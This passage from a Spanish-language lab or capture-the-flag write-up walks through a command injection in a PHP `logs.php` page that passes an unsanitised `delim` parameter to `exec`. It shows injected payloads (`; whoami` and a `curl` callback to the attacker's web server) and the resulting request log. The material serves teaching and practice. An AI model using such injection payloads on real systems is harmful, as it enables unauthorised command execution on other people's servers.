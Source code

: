 Tal y como hemos mencionado anteriormente, en la página `logs.php` comprobamos que lo que se ejecutaba por detrás era la siguiente ejecución de código a través de la función `exec` de `PHP`. Pero esta ejecución no era validada ni sanitizada en ninguna parte del código.

En el primer ejemplo, se muestra como espera el valor de `delim` en el archivo `logs.php` para ejecutar el script, pero debido que no se sanitiza, una atacante podría llegar a ejecutar otro comando a través de `;` logrando ejecutar ambos comandos y obtener un `Command Injection`.

```python
exec("/usr/bin/python /opt/scripts/log_process.py comma")
```

```python
exec("/usr/bin/python /opt/scripts/log_process.py comma; whoami")
```

Para confirmar la vulnerabilidad de `Command Injection` que hemos pensado, lo que realizaremos es levantar un servidor web para ver si logramos recibir una petición por el método `GET` de la solicitud que intentará realizar la máquina víctima hacia nuestro servidor a un recurso inexistente.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Realizaremos la siguiente inyección de código para que se ejecute el `cURL` hacia un recurso inexistente de nuestro servidor web que hemos levantado.

```bash
delim=comma;+curl+10.10.14.2/gzzcoo+#
```

<figure><img src="../../.gitbook/assets/5299_vmware_74x3qbN3kA.png" alt=""><figcaption></figcaption></figure>

Comprobamos que en nuestro servidor web, hemos logrado obtener la petición por `GET` desde la máquina víctima al recurso inexistente. Con lo cual, queda confirmada la existencia de la vulnerabilidad de `Command Injection` presente en la aplicación web.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.104 - - [03/Mar/2025 03:32:21] code 404, message File not found
10.10.11.104 - - [03/Mar/2025 03:32:21] "GET /gzzcoo HTTP/1.1" 404 -
```
